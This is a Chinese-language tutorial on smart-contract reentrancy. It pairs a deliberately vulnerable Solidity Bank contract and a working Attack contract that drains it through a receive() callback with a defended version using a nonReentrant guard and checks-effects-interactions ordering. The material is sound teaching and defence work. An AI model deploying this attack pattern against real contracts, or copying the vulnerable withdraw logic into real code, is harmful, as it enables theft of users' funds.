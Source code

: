 #### 理解概念：
- "重入攻击"，顾名思义，重复执行逻辑而造成的攻击。
- 广义上，重入指的是，合约A在调用合约B时，合约B又回调合约A的某个函数。
- 即将讨论的示例，重入攻击，指的是"重复执行转账操作，而造成资金损失的攻击"。
- 我理解的攻击机制：利用合约函数对于"单次函数的调用"，没有进行"严格的开闭检查"，而达成的重复进入逻辑。


　

##### 攻击成功示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
    演示 重入攻击 - 成功
*/

contract Bank {
    mapping (address => uint256) public balanceOf;

    constructor() payable {}

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");

        // 转账 ether，完全不防范重入攻击，裸写转账
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");

        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的总余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```


　

##### 攻击失败(防御成功)的示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

/*
    演示 重入攻击 - 防御
*/

abstract contract ReentrancyGuard {
    uint256 private constant NOT_ENTERED = 1;
    uint256 private constant ENTERED = 2;

    uint256 private _status;

    error ReentrancyGuardReentrantCall();

    constructor() {
        _status = NOT_ENTERED;
    }

    modifier nonReentrant() {
        _nonReentrantBefore();
        _;
        _nonReentrantAfter();
    }

    function _nonReentrantBefore() private {
        if (_status == ENTERED) {
            revert ReentrancyGuardReentrantCall();
        }

        _status = ENTERED;
    }

    function _nonReentrantAfter() private {
        _status = NOT_ENTERED;
    }

    function _reentrancyGuardEntered() internal view returns (bool) {
        return _status == ENTERED;
    }
}

contract Bank is ReentrancyGuard {
    mapping (address => uint256) public balanceOf;

    constructor() payable {}    

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external nonReentrant {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");

        // 先更新余额
        balanceOf[msg.sender] = 0;

        // 转账 ether，此时，已经有防御了
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");
    }

    // 获取银行合约的总余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) payable {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```


　

#### 总结一下：
- 作恶者利用"银行合约"执行```msg.sender.call()```的时候，会重新回到"攻击合约"的```receive()```函数的机制，进而在```receive()```中编写"恶意代码"，最终达成重复进行"银行合约"执行转账行为。
- 防御原理：编写"禁止重入的修饰器"(```nonReentrant```)，且，规规矩矩提前执行```balanceOf[msg.sender] = 0```(其实，这也符合常见的商业逻辑执行顺序，"先扣用户的钱，再给用户提供利益")。
- 值得一提的是：在Solidity和以太坊智能合约中，没有传统意义上的多线程机制，而，所有的函数调用都在一个区块链网络的共识机制下顺序执行。
- 在作恶者"重入攻击"被成功防御的时候，remix测试层面上，会把错误最终体现在"最外围的异常"，也就是```msg.sender.call```的执行下一行，即```require(success, "Failed to send Ether")```；并没有直接在```revert ReentrancyGuardReentrantCall()```错误处异常哦。
- 防御逻辑：```Checks-Effects-Interactions (CEI) 模式```，先检查修改状态，再进行转账，最后交互！
